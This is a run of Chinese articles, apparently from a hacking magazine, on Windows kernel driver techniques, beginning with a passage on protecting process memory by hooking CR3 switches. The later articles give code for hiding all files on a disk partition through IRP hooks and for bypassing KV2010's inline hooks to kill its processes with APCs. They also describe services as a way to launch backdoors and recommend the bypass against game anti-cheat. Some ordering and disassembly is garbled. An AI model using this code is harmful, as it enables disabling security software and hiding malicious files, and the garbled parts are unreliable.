mov esp, [esi+_KTHREAD.KernelStack]
...
mov eax, [edi+_KPROCESS.DirectoryTableBase]
...
mov cr3, eax ; 切换 cr3
...
```

SwapContext 先获取了进程的 DirectoryTableBase，然后将其放入 CR3，这样便完成了内存空间的切换。KiSwapProcess 与之类似，不再重复讨论。

###### 拦截指令后的处理

通过在执行“mov cr3,eax”之前插入转跳指令（不一定要在“mov cr3,eax”之前插入，可以直接覆盖掉“mov cr3,eax”，只要保证我们的代码先于“mov cr3,eax”执行即可），就能获取控制权。

获取了控制权之后的首要问题是如何判断指令“mov cr3,eax”要将哪个进程的 DirectoryTableBase 放入 CR3。显然，CR3 对于进程而言是独立的，即每个进程有且只有一个独立的 DirectoryTableBase，因此可以通过枚举出所有的 DirectoryTableBase，然后将当前 eax 值与各 DirectoryTableBase 比较得出将要切换到的进程。

但是目前所需要关注的仅仅是将要切换到的进程是否为被保护的进程，因此可以给将要保护的进程赋予一个独特的 DirectoryTableBase（SwapContext 及 KiSwapProcess 在“mov cr3,ecx”之前会将 DirectoryTableBase 放入 eax），然后此时将 eax 与此特殊的 DirectoryTableBase 进行比较即可得出是否为所保护的进程。

本文为被保护进程的 DirectoryTableBase 赋 0。显然 0 通常不能作为 DirectoryTableBase。因为通常而言，从 0 处开始的 PAGE_SIZE 大小的内存不是一个有效的页目录，因此将 0 加载至 CR3 后，很可能导致出错（eip 中的地址是虚拟地址，若页目录存在问题，则 eip 所指的虚拟地址进行转换以后很可能指向一个错误的物理地址或者根本不存在）。因此 0 通常不会成为任何进程的 DirectoryTableBase，进而可以用 0 将被保护的进程与其他进程区分开来。当然，也可以使用一个类似于 MagicNumber 这样的特殊数字用于标示被保护的进程，可以根据情况进行选择。

之后便是对于已保护与未保护的进程分开处理。若“mov cr3,eax”指令不涉及被保护的进程，则不需要进行任何操作，直接转跳回去继续执行即可（当然要注意保存现场，也就是说，进入 Handler 之前与返回到 SwapContext/KiSwapProcess 之后的各种寄存器的内容应该完全相同，这可以通过 pusha/pushf 实现）。否则，则需要为 eax 赋一个有效的页目录表的地址（由于转跳回去之后就会立即将 ecx 的值放入 CR3，因此 eax 必须是一个有效的 DirectoryTableBase）。若想要拒绝此次切换 CR3 的操作，则将当前的 CR3 放入 eax 即可，这样对该进程内存的任何读写操作均会在调用方的进程空间中执行（对于 SwapContext 中的“mov cr3,eax”而言，此种做法在代码中并未体现；KiSwapProcess 的 Handler 中有此种做法），否则将进程实际的 DirectoryTableBase 放入 eax。

这种做法实现起来与 Hook 区别不大，代码如下：

```c
// 找到 mov cr3,eax
PVOID
InstructionPosition(
    IN PVOID Procedure
)
{
    UCHAR *pOpcode, *cPtr;
    ULONG ProcSize = PAGE_SIZE;
    ULONG Length;
    for (cPtr = (UCHAR*)Procedure; ; ++cPtr) {
        // mov cr3, eax : 0f22 d8
        if ((*cPtr == 0x0F && *(cPtr+1) == 0x22 && *(cPtr+2) == 0xD8)) {
            return cPtr;
        }
    }
    return NULL;
}

// 覆盖 mov cr3,eax（及其后几条指令），执行转跳，获取控制权
BOOLEAN
HookInstruction(
    IN PVOID Procedure,
    IN PVOID Handler,
    OUT PVOID& ProxyProcedure
)
{
    PVOID Position = InstructionPosition(Procedure);
    // 获取 mov cr3,eax 的位置
    ProxyProcedure = GenerateProxyProcedure(Position, Handler);
    // 类似于 Hook
    HookSystemRoutine(Position, Handler);

    return TRUE;
}
```

在插入转跳之后，执行流程如下：

```text
kd> u 80541b4c
80541b4c 8b4718          mov eax,dword ptr [edi+18h]
// eax = KPROCESS.DirectoryTableBase
80541b4f 8b6b40          mov ebp,dword ptr [ebx+40h]
80541b52 8b4f30          mov ecx,dword ptr [edi+30h]
80541b55 89451c          mov dword ptr [ebp+1Ch],eax
80541b58 6820d595f8      push offset SimpleDriver!InstructionHandlerSc (f898d520)
// 插入的转跳
80541b5d c3              ret

kd> u SimpleDriver!InstructionHandlerSc
f898d520 669c            pushf
// 保存 Flags（后文代码中 cmp eax,0，有可能会修改 Eflags）
f898d522 83f800          cmp eax,0 // 本文通过将要保护的进程的 DirectoryTableBase 改为 0 实现防止直接切换 CR3
// 读写进程内存，后文详述
f898d525 7505            jne SimpleDriver!InstructionHandlerSc+0xc (f898d52c)
// 不为 0 则直接恢复执行
f898d527 a1180299f8      mov eax,dword ptr [SimpleDriver!ProcessPageDirectory (f8990218)]
// 否则将原始的 DirectoryTableBase 放入 eax 再恢复执行
f898d52c 669d            popf
```

```asm
f898d52e ff251cd299f8 jmp dword ptr [SimpleDriver!ProxySwapContext (f899021c)]

kd> u poi(f899021c)
81f7eb28 022d8 mov cr3,eax
// 实现被覆盖掉的代码（此行及下行）
81f7eb2b 66894d66 mov word ptr [ebp+66h],cx
81f7eb2f 68f1b5480 push offset nt!SwapContext+0xaf (80541b5f)
// 跳转回 SwapContext
81f7eb34 c3 ret

kd> u 80541b5f
nt!SwapContext+0xaf: // 原始的 SwapContext
80541b5f eb03 jmp nt!SwapContext+0xb4 (80541b64)
80541b61 8d4900 lea ecx,[ecx]
80541b64 8b4318 mov eax,dword ptr [ebx+18h]
80541b67 8b4b3c mov ecx,dword ptr [ebx+3Ch]


```

与前文原始的 SwapContext 执行流程进行比较并配以反汇编中的注释，可以很容易看出修改后的执行流程，不再赘述。

因此，在调用方 ebp 下方的数值为返回地址，所以根据某函数内部的 ebp 可以查询到其调用方的函数位置（确切来说，是调用方中调用此函数的指令的下一条指令的位置）。现给出图 1 来说明栈中的内容。
KiSwapProcess 通常的调用方为 KiAttachProcess 及 KeUnstackDetachProcess，这两个函数开头均会保存调用方的 ebp，同时也会用 ebp 来寻址局部变量，因此可以在 Handler 中通过 ebp 向上回溯调用方的 ebp 及调用方的返回地址，然后继续向上回溯（尽管 KiSwapProcess 并未保存 ebp，但这也就可以说明 KiSwapProcess 并未修改 ebp，因此仍然可以向上回溯）。代码如下：

```cpp
PVOID
UnwindCallStack(
    PVOID ChildEbp,
    PVOID &ReturnAddress
)
{
    ReturnAddress = ((PVOID*)ChildEbp)[1];
    return ((PVOID*)ChildEbp)[0];
}
```

##### 内存保护

常见的内存读写除直接修改 CR3 外均是通过各种系统调用/内核函数实现的，这些函数内部均会调用 KeStackAttachProcess（进一步调用 KiAttachProcess）进而使用 KiSwapProcess 完成 CR3 的切换。前文中通过修改指令已经可以拦截 KiSwapProcess 中切换 CR3 的相关代码，此时通过回溯堆栈可以判断调用源。

```asm
mov edi,edi
push ebp
mov ebp,esp
```

第一行等价于两个 nop，之所以使用“mov edi,edi”，仅仅是因为其效率高于连续的两个 nop。接下来的 push ebp 用于保存调用方的 ebp，而“mov ebp,esp”将当前栈顶指针存入 ebp。通常而言，函数内部除开头处的“mov ebp,esp”以及结尾的“mov esp,ebp”以外，ebp 不会被修改。基于此可通过当前函数内的 ebp 回溯到调用方函数内部位置。

在获得了调用方的函数地址后，需要判断其地址所属范围。若调用来自于 NT 自身模块，则继续向上回溯；一旦遇到未知模块，则可认定是某内核驱动企图切换到被保护进程的虚拟内存中，此时便可阻止此操作（直接将当前的 CR3 放入 eax 后跳转回 KiSwapProcess，这样便不会进行内存切换）。当回溯到用户态地址时停止回溯，并允许此次切换 CR3 的操作。

```cpp
BOOLEAN
__stdcall
IsCallLegal(
    PVOID ChildEbp
)
{
    PVOID ReturnAddress;
    PVOID LocalChildEbp = ChildEbp;

    // 一直向上回溯
    while (LocalChildEbp) {
        LocalChildEbp = UnwindCallStack(LocalChildEbp, ReturnAddress);
        // ...
    }
}
```

```c
if ((ULONG)ReturnAddress < MM_USER_PROBE_ADDRESS) {
    break;
}
// 在此处判断 ReturnAddress 所属模块
DbgPrint("[MemoryProtection] IsCallLegal KiSwapProcess from 0x%X\n", ReturnAddress);
...
__declspec(naked)
VOID InstructionHandlerSp(...)
{
    __asm {
        pushfd
        cmp eax, 0
        jnz ForwardRequest
        pushad
        push ebp
        call IsCallLegal
        cmp al, TRUE
        je CallLegal
        popad
        mov eax, cr3
        jmp ForwardRequest
CallLegal:
        popad
        mov eax, ProcessPageDirectory
ForwardRequest:
        popfd
        jmp ProxyKiSwapProcess
    }
}
```

##### 开关进程保护

在理解了保护的原理之后，如何开/关保护便非常易懂。对于开启保护，则先要获得原始 DirectoryTableBase，然后修改指令执行流程，最后将 DirectoryTableBase 置为 0，以防止其他驱动获取 DirectoryTableBase。

```c
VOID SetProcessPageDirectory(
    IN PEPROCESS Process,
    IN ULONG PageDirectory
)
{
    *(ULONG *)((CHAR*)Process + PageDirectoryBaseOffset) = PageDirectory;
    return;
}
```

```c
ULONG GetProcessPageDirectory(IN PEPROCESS Process)
{
    return *(ULONG *)((CHAR*)Process + PageDirectoryBaseOffset);
}

ProcessPageDirectory = GetProcessPageDirectory(ProcessObject);
if (!ProcessPageDirectory) {
    Status = STATUS_INVALID_DEVICE_REQUEST;
}
DbgPrint("[MemoryProtection] DriverEntry: Page directory base is 0x%X\n", ProcessPageDirectory);
if (NT_SUCCESS(Status)) {
    Status = EnableMemoryProtection() ? STATUS_SUCCESS : STATUS_INVALID_DEVICE_REQUEST;
}
SetProcessPageDirectory(ProcessObject, 0);
```

关闭保护与此执行流程相反。

```c
SetProcessPageDirectory(ProcessObject, ProcessPageDirectory);
DisableMemoryProtection(); // 恢复执行流程


```

##### 驱动测试

打开一个记事本后加载驱动，之后驱动会 PsLookupProcessByProcessId 从 4 到 0xFFF 找到第一个 notepad.exe，把 notepad.exe 的页目录改为 0，同时对 KiSwapProcess 的调用会回溯堆栈并打印，打印时显示为“KiSwapProcess from 0xXXXXXX”。效果如下。
```text
PageFaultCount 1816
MemoryPriority BACKGROUND
BasePriority 8
CommitCharge 770

[MemoryProtection] DriverEntry: Here we go.
[MemoryProtection] DriverEntry: Process found, process object = 0x8210CDAD.
[MemoryProtection] DriverEntry: Page directory base is 0x3B022020.
[MemoryProtection] HookInstruction: mov cr3, eax is located at 0x80541C9F inside function 0x80541C4C.
[MemoryProtection] HookInstruction: mov cr3, eax is located at 0x80541B58 inside function 0x80541AB0.
[MemoryProtection] EnableMemoryProtection: KiSwapProcess hooked.
[MemoryProtection] EnableMemoryProtection: SwapContext hooked.
[MemoryProtection] IsCallLegal: KiSwapProcess from 0xBF8E80B0.
[MemoryProtection] IsCallLegal: KiSwapProcess from 0xBF8FAAC7.
```

```text
[MemoryProtection] IsCallLegal: KiSwapProcess from 0xBF832F53.
...
[MemoryProtection] DisableMemoryProtection: KiSwapProcess unhooked.
[MemoryProtection] DisableMemoryProtection: SwapContext unhooked.
[MemoryProtection] DriverUnload.


```

##### 结束语

本文提供了一种防止直接切换 CR3 读写进程内存的方法。但是，显然本文提供的方法还远远不能够实现全方位地保护进程内存（比如直接给被保护的进程设置一个 APC，然后在 APC 里面修改内存），因此，只有将各种方法结合起来，才能够全面地保护好进程的内存空间。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：编程、IRP、文件隐藏

##### 利用 Hook IRP

##### 隐藏磁盘分区
文 / liuke_blue

前不久我写了一篇关于如何通过 Hook IoCallDriver 来保护文件不被删除的文章，在文中我提到过 Hook IoCallDriver 这个函数，最终其实是 Hook IRP，只要我们能够处理 IRP，那么我们就能够“为所欲为”了。因此本文将给大家讲讲如何通过 Hook IRP 来隐藏磁盘分区下的所有文件。

我们都知道查询文件和目录时，系统所传递的 IRP 是 IRP_MJ_DIRECTORY_CONTROL，所以要想隐藏文件就必须在 IRP->MajorFunction==IRP_MJ_DIRECTORY_CONTROL 中进行“过滤”。那如何隐藏磁盘分区下的所有文件呢？

IRP 是从上层往下层传递的，在上层驱动中处理（对 IRP 的结构进行填充、修改等处理）后，再往下层驱动传递。我在调试跟踪中发现，当查询某个文件时，是按照下面的流程进行的：

首先是打开文件所在的磁盘分区，再打开文件所在的目录，最后查找到文件。所以我们在查询到文件所在的磁盘分区之后，要判断是不是我们要隐藏的磁盘分区，如果是，则不让查询文件的 IRP 继续往下传递，而是返回 STATUS_NO_MORE_FILES，这样就无法查看到这个磁盘分区下的文件，也就达到隐藏磁盘分区的目的了。因为有一部分的驱动代码跟以前的相似，所以我只把实现隐藏的核心代码提供给大家。

```c
DRIVER_OBJECT *DriverObject = DeviceObject->DriverObject;
WCHAR *pwsz = NULL;
IO_STACK_LOCATION *sp;
PULONG BufferLength;
PFILE_OBJECT FileObject;
UNICODE_STRING uni_path;
UNICODE_STRING uni_disk;
sp=IoGetNextIrpStackLocation(Irp);
switch(sp->MajorFunction)
{
case IRP_MJ_DIRECTORY_CONTROL:
// 发现是目录查询则获得所有的文件链
{
  FileObject=sp->FileObject;
  // 这就是实现隐藏的核心代码
  ObReferenceObjectByPointer((PVOID)FileObject,0,NULL,KernelMode);
  RtlInitUnicodeString(&uni_path,FileObject->FileName.Buffer);
  RtlVolumeDeviceToDosName(FileObject->DeviceObject,&uni_disk);
  ObDereferenceObject(FileObject);
  if((uni_disk.Length==4)&&((Hide_name.Length==4)))
  {
    // 进行对比
    if(!_wcsicmp(uni_disk.Buffer,Hide_name.Buffer))
    {
      Irp->IoStatus.Information=0;
      Irp->IoStatus.Status=STATUS_NO_MORE_FILES;
      IoCompleteRequest(Irp,IO_NO_INCREMENT);
      nResult=TRUE;
      goto Exit00;
    }
    goto Exit00;
  }
  goto Exit00;
}
default:
  goto Exit00;
}
Exit00:
return nResult;
```

```pascal
end;
try
  m_HideDevice:=CreateFile(pchar('\\.\\HideDisk File'),
    GENERIC_READ or GENERIC_WRITE,
    FILE_SHARE_READ,
    nil,
    OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL,
    0);
  if m_HideDevice=INVALID_HANDLE_VALUE then
  begin
    MessageBox(Handle,'驱动加载失败，无法隐藏!','警告',MB_OK+MB_ICONERROR);
    exit;
  end;
except
  MessageBox(Handle,'驱动加载失败，无法隐藏!','警告',MB_OK+MB_ICONERROR);
end;
dirname:=combobox1.Text;
ControlInBuff[0]:=dirname[Length(dirname)-2];
ControlInBuff[1]:=dirname[Length(dirname)-1];
bRet:=DeviceIoControl(m_HideDevice,$8008e000,@ControlInBuff,sizeof(ControlInBuff),nil,0,dwReturn,nil);
if (bRet) then
begin
  MessageBox(Handle,'磁盘隐藏成功!','提示',MB_OK+MB_ICONINFORMATION);
end;
end;
```

应用层的主要代码如下：

```pascal
sum:=GetLogicalDriveStrings(MAX_PATH,temp);
for i:=0 to (sum Div 4) do
begin
  ss:=temp[i*4]+temp[i*4+1]+temp[i*4+2];
  if(GetDriveType(pchar(ss))=DRIVE_FIXED) then
  begin
    Combobox1.Items.add(ss);
    ss:='';
  end;
end;

procedure TForm1.BitBtn1Click(Sender: TObject);
var
  dirname:string;
  bRet:longbool;
  dwReturn:Cardinal;
begin
  if combobox1.Text='' then
  begin
    messagebox(0,'请选择本地磁盘来隐藏!','警告',mb_ok+MB_ICONWARNING);
    exit;
  end;


```

我先用工具加载驱动，然后进行隐藏，隐藏后的效果图如图1所示。
图1

可以看到 C 盘下的所有文件都被隐藏起来了，这就相当于把磁盘分区给隐藏了，但这个程序不足的地方是虽然能把磁盘下的文件隐藏起来，但仍然可以看到磁盘分区的盘符、磁盘分区里空间的大小等，这是因为处理这些信息的 IRP 并不经过文件系统驱动，而是传递给 Disk.sys 这个磁盘类驱动，所以要做到更完美的磁盘分区隐藏就必须编写 diskperf 驱动。

>>（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、Inline Hook、驱动

##### 绕过 Head Inline Hook

文/图 广东工业大学 胡文亮（Tesla.Angela）
最近几个月都在研究 Inline Hook，有不少的心得体会，不敢独享，特成此文与大家共同进步。大家没听过“Head Inline Hook”不奇怪，这个词是我杜撰的（我经常犯杜撰新词的毛病，因为有些东西我压根不知道怎么称呼）。所谓的 Head Inline Hook，就是写在函数较前位置的 Inline Hook（没有定论），个人认为前 20 个字节的 Inline Hook 都算是 Head Inline Hook。Head Inline Hook 稳定性很好，也很好检测。比如著名的 RkU，可以检测到冰刃的几个 Inline Hook，却检测不到 XueTr 的 Inline Hook，因为 XueTr 使用的是 Deep Inline Hook 中的 Call Hook，修改了函数较深位置（起码 50 个字节之后）的数据。Deep Inline Hook 比较难以检测，不过也受系统影响较大，很有可能出错导致蓝屏，品质没保证。所以，除了某些产品（比如 NP，连腾讯都放弃使用了）之外，没有人愿意在商品级的软件中使用，包括 KV2010。

```c
typedef VOID (__fastcall *KINSERTQUEUEAPC)(
    PKAPC Apc,
    KPRIORITY Increment
);
KINSERTQUEUEAPC KInsertQueueApc;


```
图 1

然后获得 KInsertQueueApc 的地址。由 WinDBG 得知，KeInsertQueueApc 的第 3 个 call 就是 KiInsertQueueApc：

说起江民杀毒软件，可是 Windows 内核爱好者的老朋友了。自打 2008 版之后，江民到处宣称自己的产品“冰刃都杀不死”，好像“冰刃都杀不死”就能让自己的脸上倍儿有面子似的。其实学过驱动半年的人，都能轻易破解 KV 任何一个版本的自我保护。不过貌似它们都无一例外恢复了 KV 的钩子（不包括内存清零）。今天我开个例外，在不恢复 KV 钩子的情况下，用 APC 的方式杀死 KV2010。

大家都知道，KV 为了保护自己，Hook 了 Ke(i)InsertQueueApc（由于内核态进程不用句柄，所以 ObXXX 的钩子就忽略不计了），但不知道大家注意了没有，KV 的这两个钩子只修改了函数的第 3 到第 7 字节，明显属于 Head Inline Hook，如图 1 所示。加上 KV 注册了 DPC 不断恢复挂钩，恢复钩子几乎等于没有恢复，所以我们干脆不恢复钩子，直接绕过。

首先自定义一下未导出函数 KiInsertQueueApc，注意它的调用约定是 FASTCALL：

```c
ULONG GetKInsertQueueApc()
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length, CallCount = 1, ETAddr = 0;
    ULONG AddressOf_KeInsertQueueApc, AddressOf_KiInsertQueueApc = 0;
    AddressOf_KeInsertQueueApc = GetFunctionAddr("KeInsertQueueApc");
    for (cPtr = (PUCHAR)AddressOf_KeInsertQueueApc;
         cPtr < (PUCHAR)AddressOf_KeInsertQueueApc + PAGE_SIZE;
         cPtr += Length)
    {
        Length = SizeOfCode(cPtr, &pOpcode);
        if (!Length) return ETAddr;
        if (*pOpcode == 0xE8)
        {
            CallCount++;
            if (CallCount == 3) // XP: The Third e8 is KiInsertQueueApc
            {
                ...
            }
        }
    }
}
```

```c
AddressOf_KiInsertQueueApc = *((PULONG)(pOpcode + 1) + (ULONG)cPtr + 5);
DbgPrint("KiInsertQueueApc Address = %X", AddressOf_KiInsertQueueApc);
break;
...
ETAddr = AddressOf_KiInsertQueueApc;
return ETAddr;
```

注意，这段代码能在 Windows XP 和 Windows 7 下使用，但不能在 Windows 2003 下使用，因为在 Windows 2003 里第 2 个 call 就是 KiInsertQueueApc 了。还要注意的是，小心 KeInsertQueueApc 被 Call Hook 了，曾经有个 ARK 就对此函数做了 Call Hook，如果这段代码与此 ARK 一同运行的话，会得到错误的地址。

之后再给变量 KiInsertQueueApc 申请一段内存，并填充 NOP：

```c
KiInsertQueueApc = ExAllocatePool(NonPagedPool, 20); // 分配20字节
memset(KiInsertQueueApc, 0x90, 20); // NOP
```

接下来就是重头戏了，要给 KiInsertQueueApc 的头 12 个字节写上原始的内核代码，用于绕过 KV 对 KiInsertQueueApc 的 Head Inline Hook（为什么是 12 个字节呢？虽然说理论上 7 个字节就够了，不过多一点也总让人觉得放心一点）。

```c
KiAddr = GetKiInsertQueueApc();
GetOldCode(KiAddr, 12, (PBYTE)KiInsertQueueApc);

// RVA 和 Raw 转换
ULONG RVAToRaw(PCHAR szFileName, IN ULONG VirtualAddress)
{
    NTSTATUS ntStatus;
    ULONG FileRaw = 0, NumOfSections, i;
    OBJECT_ATTRIBUTES ObjAttr;
    IO_STATUS_BLOCK ioStatus;
    HANDLE hFile;
    FILE_POSITION_INFORMATION FilePos;
    IMAGE_DOS_HEADER DosHeader;
    IMAGE_NT_HEADERS NtHeader;
    IMAGE_SECTION_HEADER SectionHeader;
    ANSI_STRING TmpFileName;
    UNICODE_STRING FileName;
    RtlInitAnsiString(&TmpFileName, szFileName);
    ntStatus = RtlAnsiStringToUnicodeString(&FileName, &TmpFileName, TRUE);
    ...
}
```

```c
if (NT_SUCCESS(ntStatus))
{
    ntStatus = ZwReadFile(hFile, NULL, NULL, NULL, &ioStatus, &DosHeader, sizeof(DosHeader), NULL, NULL);
    if (NT_SUCCESS(ntStatus))
    {
        FilePos.CurrentByteOffset.LowPart = DosHeader.e_lfanew;
        FilePos.CurrentByteOffset.HighPart = 0;
        ntStatus = ZwSetInformationFile(hFile, &ioStatus, &FilePos, sizeof(FILE_POSITION_INFORMATION), FilePositionInformation);
        ntStatus = ZwReadFile(hFile, NULL, NULL, NULL, &ioStatus, &NtHeader, sizeof(NtHeader), NULL, NULL);
        if (NT_SUCCESS(ntStatus))
        {
            NumOfSections = NtHeader.FileHeader.NumberOfSections;
            ntStatus = ZwReadFile(hFile, NULL, NULL, NULL, &ioStatus, &SectionHeader, sizeof(SectionHeader), NULL, NULL);
            for (i = 0; i < NumOfSections; i++)
            {
                if (VirtualAddress >= SectionHeader.VirtualAddress &&
                    VirtualAddress < SectionHeader.VirtualAddress + SectionHeader.SizeOfRawData)
                {
                    FileRaw = VirtualAddress - SectionHeader.VirtualAddress + SectionHeader.PointerToRawData;
                    break;
                }
                ntStatus = ZwReadFile(hFile, NULL, NULL, NULL, &ioStatus, &SectionHeader, sizeof(SectionHeader), NULL, NULL);
            }
        }
    }
    ZwClose(hFile);
}
RtlFreeUnicodeString(&FileName);
return FileRaw;
```

```c
// 根据函数地址得到函数的原始数据
BOOL GetOldCode(ULONG Address, ULONG Length, PBYTE pOldCode)
{
    NTSTATUS ntStatus;
    BOOL Ret = FALSE;
    char szKernelPath[MAX_PATH] = {0};
    BYTE OldCode[50] = {0};
    BYTE Jmp_Orig_Code[7] = {0xEA, 0, 0, 0, 0, 0x08, 0x00};
    ULONG KernelBase, FileRaw, dwNeedSize;
    ANSI_STRING TmpFileName;
    UNICODE_STRING FileName;
    OBJECT_ATTRIBUTES ObjAttr;
    IO_STATUS_BLOCK ioStatus;
    HANDLE hFile;
    FILE_POSITION_INFORMATION FilePos;
    KernelBase = GetKernelBaseAddress(szKernelPath);
    // 取内核路径和基址
    if (KernelBase)
    {
        ...
    }
}
```

```c
FileRaw = RVAToRaw(szKernelPath, Address - GetKernelBaseAddress(NULL));
// 转换为文件偏移
if (FileRaw)
{
    RtlInitAnsiString(&TmpFileName, szKernelPath);
    ntStatus = RtlAnsiStringToUnicodeString(&FileName, &TmpFileName, TRUE);
    // 自动分配空间
    if (NT_SUCCESS(ntStatus))
    {
        InitializeObjectAttributes(&ObjAttr, &FileName, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);
        ntStatus = ZwOpenFile(&hFile, FILE_READ_DATA, &ObjAttr, &ioStatus,
                              FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
                              FILE_SYNCHRONOUS_IO_NONALERT);
        if (NT_SUCCESS(ntStatus)) // 打开内核文件
        {
            FilePos.CurrentByteOffset.LowPart = FileRaw;
            FilePos.CurrentByteOffset.HighPart = 0;
            ntStatus = ZwSetInformationFile(hFile, &ioStatus, &FilePos,
                                            sizeof(FILE_POSITION_INFORMATION),
                                            FilePositionInformation);
            if (NT_SUCCESS(ntStatus)) // 设置文件偏移
            {
                ntStatus = ZwReadFile(hFile, NULL, NULL, NULL, &ioStatus, OldCode, 50, NULL, NULL);
                if (NT_SUCCESS(ntStatus))
                // 这里读50个字节到缓冲区
                {
                    // 取足够长的完整指令集，复制到pOldCode
                    dwNeedSize = GetPatchSize(OldCode, Length);
                    if (dwNeedSize)
                    {
                        memcpy(pOldCode, OldCode, dwNeedSize);
                        // 原函数+N 地址
                        *((PULONG)(Jmp_Orig_Code + 1)) = Address + dwNeedSize;
                        memcpy(pOldCode + dwNeedSize, Jmp_Orig_Code, 7);
                        // 复制跳转指令
                        Ret = TRUE;
                    }
                }
            }
            ZwClose(hFile);
        }
        RtlFreeUnicodeString(&FileName);
    }
}
return Ret;
```

第一句是把原始代码复制到我们的 `KiInsertQueueApc` 中，第二句是计算执行完前 N 个字节（我们设置为 12）的指令后，跳到原函数何处执行；第三句是把计算好的跳转指令复制到我们的 `KiInsertQueueApc` 中。之所以强调“我们的 KiInsertQueueApc”，是因为它只对我们先前定义的（并当做函数使用的）变量 `KiInsertQueueApc` 有效。当别的线程使用到函数 KiInsertQueueApc，不会绕过函数 KiInsertQueueApc 的前 12 个字节。

最后，我们就可以直接使用 KiInsertQueueApc 来杀死 KV2010 了。

```c
KeInitializeApc(pApc, (PKTHREAD)Thread, OriginalApcEnvironment, ApcCallback, 0, 0, KernelMode, 0);
// 以下三句实际上就是在KiInsertQueueApc中执行的，
// 在线程里加个隐藏机器码，自己把事情办了
pApc->SystemArgument1 = NULL;
pApc->SystemArgument2 = NULL;
pApc->Inserted = FALSE;
KiInsertQueueApc(pApc, 0);
DbgPrint("KiInsertQueueApc Over!");


```

在 APC 例程中直接使用 PsTerminateSystemThread 就行了，因为这实际上是 KV 线程自己执行，而非外部执行的，KV 的驱动无法阻止也不能阻止。效果出奇地好，KV 的所有进程都能在瞬间被结束，如图 2 所示。
图 2

对于打开内核文件获得原始内核数据的代码，我不多做解释，只看看这几句核心代码：

```c
memcpy(pOldCode, OldCode, dwNeedSize);
*((PULONG)(Jmp_Orig_Code + 1)) = Address + dwNeedSize;
// 原函数+N 地址
memcpy(pOldCode + dwNeedSize, Jmp_Orig_Code, 7);
// 复制跳转指令


```

结束本文之前，再解释三点：第一，获得函数原始数据的代码没有做重定位（我自己曾经尝试写过，结果发现数据错得更加离谱，于是放弃了），所以要绕过的字节数越少越好，不过根据经验，大部分函数（当然包括 KiInsertQueueApc）其前 50 个字节的数据是不会错的；网上有用 VB 写的获取函数原始字节（并包括重定位）的代码，大家尝试一下能否改成驱动版的；第二，如果你能够完全正确地获得这个函数的原始数据，绕过整个函数都是可以的，不过我觉得没必要。有意义；第三，绕过 Deep Inline Hook 更加简单，只要在它的 Hook 前面打补丁，绕过它修改的那几字节就行了。

文章到此就结束了，这种方法对杀 KV2010 来说实在是有点大材小用。若真的要对付 KV2010，直接内存清零就行了，代码不到 10 行。我之所以以 KV2010 来举例，是因为它比较出名。下面说一个有商业价值的应用：有个国内公司出的“山寨版 NP”（具体名字忘了……）Hook 了 KiAttachProcess（头 5 个字节 Inline Hook）对游戏进程进行内存保护，如果你恢复 KiAttachProcess 的钩子，马上发现“落霞与孤鹜齐飞，蓝屏共海天一色”。正可谓“恶人自有恶人磨，有刁民就有酷吏”，我的这种方法对付那些爱流氓的游戏保护，还是有很大用途的。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：编程、系统服务、SCP、SCM

##### 服务的编程实现
文/图 小庞

几乎每一个操作系统都有一种在系统启动时刻启动进程的机制，这些进程提供了一些不依赖于任何交互式用户的服务。在 Windows 中，这样的进程称为服务（service），类似于 UNIX 的守护进程，它们通常实现了客户/服务器应用的服务器一方，在没有用户登录系统的情况下也会正常执行。因此，服务相当适合后门的启动方式。本文将重点介绍一下服务的写法，列举些容易犯的错误；另外，本文也参考了一些前辈的文章，如有不正确的地方，还请指正。

Windows 服务由三个组件构成：服务应用、服务控制程序（又称 SCP），以及服务控制管理器（SCM）。SCM 的可执行文件是 `\Windows\System32\Services.exe`，作为系统的控制台程序运行。SCP 则可以认为是一个管理服务的程序，它在执行时先要调用 OpenSCManager，来打开一个通向 SCM 的通信通道。说了这么多，最后让我们进入本文的主要部分：服务应用，开始编写服务。

我们知道，在 VC 中程序的入口点函数的形式大概有以下几种：main()、WinMain()、_tmain()、wmain()。其中 main 是 C 程序的函数，_tmain 是 main 为了支持 Unicode 所使用的 main 的别名，而 WinMain() 是 Windows 的 GUI 程序入口。说了这么多，主要目的就是想告诉大家，虽然入口函数很多，但我们服务使用的是 main() 和 WinMain()。如果使用其他的入口函数，有时候是要经过一些处理的，否则程序编译虽然能成功，但运行的时候仍会报错。main() 将初始化整个进程，这个主进程使用 SERVICE_TABLE_ENTRY 结构，通知 SCM 在这个可执行文件中有几个服务。

ServiceMain() 其实是我们构造的函数，并不是 Windows 本身的 API。一个服务主进程可以启动几个服务，而每个服务都有一个这样的 ServiceMain。每个服务对应的 ServiceMain 将在 main 函数中传入一个 SERVICE_TABLE_ENTRY 结构，具体方式将在下面说到。其结构如下：

###### 总体说明

服务本身有三个重要的函数：Main()、ServiceMain() 和 ServiceCtrlHandler()。

```c
VOID WINAPI ServiceMain(
    DWORD dwArgc,      // 参数个数
    LPTSTR *lpszArgv   // 参数串
);
```

ServiceCtrlHandler 函数同样是我们自己构造的函数。SCM 调用一个服务的 ServiceCtrlHandler 函数去改变这个服务的状态。例如，当某个管理员用管理工具里的“服务”尝试停止你的服务的时候，你的服务的 ServiceCtrlHandler 函数将收到一个 SERVICE_CONTROL_STOP 通知。ServiceCtrlHandler 函数负责执行停止服务所需的一切代码，这一部分应该被尽快调用。其结构如下：

```c
VOID WINAPI ServiceCtrlHandler(
    DWORD fdwControl   // 控制命令，是由系统进行调用的
);
```

```c
BOOL SetServiceStatus(
    SERVICE_STATUS_HANDLE hService,      // 服务的句柄
    SERVICE_STATUS *lpServiceStatus      // SERVICE_STATUS 结构的地址
);
```

在下面的代码里，我们注册了一个名为 ServiceCtrlHandler 的服务控制函数。

##### 代码实现

- 1）头文件及全局变量

```c
#include <Windows.h>
SERVICE_STATUS ServiceStatus;
SERVICE_STATUS_HANDLE ServiceStatusHandle;
```

- 2）main 函数

